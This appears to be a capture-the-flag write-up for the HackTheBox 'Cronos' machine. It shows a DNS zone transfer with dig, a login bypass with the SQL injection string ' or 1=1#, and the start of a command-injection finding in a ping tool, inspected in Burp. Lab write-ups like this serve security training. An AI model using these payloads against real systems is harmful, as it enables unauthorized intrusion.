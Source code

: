
### DNS

```bash
dig axfr cronos.htb @10.10.10.13
```

```txt
; <<>> DiG 9.17.19-3-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 120 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Sat Mar 19 14:50:00 EDT 2022
;; XFR size: 7 records (messages 1, bytes 203)
```


### admin.cronos.htb

![[admin_login_panel.png]]

```txt
user: ' or 1=1#
password: admin
```

![[enter_creds.png]]

```txt
http://admin.cronos.htb/welcome.php
```

![[net_tool.png]]

We can ping our machine.

![[ping_attacker.png]]

see the request in Burp
![[burp1.png]]

send to repeater, and inspect

we can see that commands are being executed via plaintext format.

![[burp_inspect_1.png]]

![[burp_inspect_2.png]]
